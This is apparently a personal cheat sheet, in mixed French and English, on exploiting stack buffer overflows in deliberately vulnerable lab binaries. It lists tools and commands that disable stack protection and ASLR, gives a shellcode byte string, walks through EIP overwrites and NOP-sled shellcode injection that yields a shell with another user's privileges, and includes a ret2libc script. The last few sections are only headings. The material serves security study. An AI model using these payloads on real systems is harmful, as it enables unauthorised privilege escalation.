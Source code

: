 # Buffer overflow

</br>

## Tools

* Plugin pour gdb : https://github.com/longld/peda
* string xxx
* test eax, eax : caracteristique des comparaisons de strings
* objdump -D buffer_01
* strace
* pmap `pidof xxx`
* PwnTools 
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
* /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41424344
* https://github.com/JonathanSalwan/ROPgadget
* $ for i in `seq 1 100`; do echo $i; ./simple $(python -c "print 'A'*$i"); done

</br>

### Payloads

#### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````

</br>

### Disable securities

````
gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf
````

#### compile 32 bit on 64 bit platform

````
apt-get install gcc-multilib
gcc -m32
````

</br>

### gdb

#### Find system address

* source /usr/share/gdb-peda/peda.py
* r
* print system
* find "/bin/sh" all


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````

</br>

## Internal function call

On regarde les fonctions et leurs adresses
````
$ objdump -D ./strcpy
08048533 <get_flag_1>:
 8048533:	55                   	push   %ebp
 8048534:	89 e5                	mov    %esp,%ebp
 8048536:	83 ec 08             	sub    $0x8,%esp
 8048539:	83 ec 0c             	sub    $0xc,%esp
 804853c:	68 20 86 04 08       	push   $0x8048620
 8048541:	e8 1a fe ff ff       	call   8048360 <system@plt>
 8048546:	83 c4 10             	add    $0x10,%esp
 8048549:	c9                   	leave
 804854a:	c3                   	ret

0804854b <get_flag_2>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%e
````
get_flag_2 est en 0804854b, on va pousser 0804854b en bout de notre fuzzer, et le faire glisser jusqu'à ce qu'il tombe sur EIP et appelle la fonction get_flag_2
````
$ for i in `seq 1 100`;do echo $i; ./strcpy $(python -c "print 'a'*$i+'\x4b\x85\x04\x08';"); done
````

</br>

## Execute stack payload : before ESP

Context:
- Executable stack
- No canary
- No Address Space Layout Randomization
=> Adresses are hard coded in elf

gcc -z execstack 


Detection à la louche de l'overflow en shell
````
$ for i in `seq 500 510`;do echo $i; ./vuln_basic $(python -c "print 'a'*$i;"); done
````

Detection fine de la position dans gdb
````
gdb
disassemble main
break *0x0804844e
gdb-peda$ run $(python -c "print 'a'*512+'bcdefghijklmnopqrst';")
Stopped reason: SIGSEGV
0x65646362 in ?? ()
=> bcde
gdb-peda$ x/520x $esp
````

On dispose de 512 octets. On va utiliser (512-48) NOP et une payload de 48 octets suivi d'une adresse 1234.
````
 run $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x01\x02\x03\x04";')
 ````
On vérifie que EIP vaut bien 4x3x2x1
On cherche avec x/520x $esp une adresse dans les nop
"bffffd50"
On l'inverse
"\x50\xfd\xff\xbf" 

On quitte gdb et on fait en shell
````
./vuln_basic  $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x50\xfd\xff\xbf";')
$ id
uid=1001(user) gid=1001(user) euid=1000(chall) groups=1001(user)
````

</br>

## Execute stack payload : after ESP


On se le refait mais avec la payload après EIP
````
./vuln_basic  $(python -c 'print "\x90"*(512)+"\xc8\xfd\xff\xbf"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";')
````

</br>

## Stack/Heap non executable -> return to LibC

```
#!/usr/bin/python
import os
import struct

libc_system = struct.pack('<I', 0xaeaeaeae)
libc_binsh  = struct.pack('<I', 0xaeaeaeae)

buffer  = 'A'*64
buffer += libc_system
buffer += 'AAAA'
buffer += libc_binsh

progname ="./buffer_01"
os.environ['VAR']=buffer
os.execve(progname, [progname], os.environ)

````

</br>

## Hide LibC adresse ALSR 32 bits -> bruteforce search 



</br>

## Hide LibC adresse ALSR 64 bits -> information leak (format string vuln)


</br>

## LibC hidden -> Return Oriented Program (ROP)

https://github.com/0vercl0k/rp

</br>

## Randomize location of code -> Blind ROP

[http://www.scs.stanford.edu/brop/]












